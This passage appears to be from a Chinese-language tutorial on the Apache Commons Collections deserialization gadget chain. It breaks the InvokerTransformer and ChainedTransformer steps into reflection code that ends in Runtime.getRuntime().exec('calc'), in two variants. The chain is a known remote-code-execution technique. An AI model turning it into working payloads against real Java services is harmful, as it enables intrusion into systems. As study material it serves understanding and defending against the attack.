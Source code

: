 注：将要执行的多行代码分散到各个transformer里，使用InvokeTransformer类来执行我们的方法。接着用TransformedMap来执行transfom方法触发代码。

注：ChainedTransformer将多个Transformer构成一个连顺序执行。其中ConstantTransformer对象会忽略调用对象，而直接返回内部对象（Runtime.class）。

实际执行代码：

```
Runtime.getRuntime().exec("calc");
```

执行过程：

```
//new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", new Class[0]}),

Method m=Runtime.class.getClass().getMethod("getMethod",new Class[]{String.class,Class[].class});//反射获取方法
Object o= m.invoke(Runtime.class,new Object[]{"getRuntime", new Class[0]});
System.out.println(o);
System.out.println(o.getClass());

//new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, new Object[0]}),

//调用Method对象的invoke方法
m=o.getClass().getMethod("invoke", new Class[]{Object.class,Object[].class});
o=m.invoke(o, new Object[]{null, new Object[0]});
System.out.println(o);
System.out.println(o.getClass());
            
//new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})

m=o.getClass().getMethod("exec",new Class[]{String.class});
o=m.invoke(o, new Object[]{"calc"});
System.out.println(o);
System.out.println(o.getClass());
```

或者

```
//new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", new Class[0]}),

Method m=Object.class.getClass().getMethod("getMethod",new Class[]{String.class,Class[].class});//反射获取方法
Object o= m.invoke(Runtime.class,new Object[]{"getRuntime", new Class[0]});
System.out.println(o);
System.out.println(o.getClass());

//new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, new Object[0]}),

//调用Method对象的invoke方法
m=Method.class.getMethod("invoke", new Class[]{Object.class,Object[].class});
o=m.invoke(o, new Object[]{null, new Object[0]});
System.out.println(o);
System.out.println(o.getClass());

//new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})

m=Runtime.class.getMethod("exec",new Class[]{String.class});
o=m.invoke(o, new Object[]{"calc"});
System.out.println(o);
System.out.println(o.getClass());
```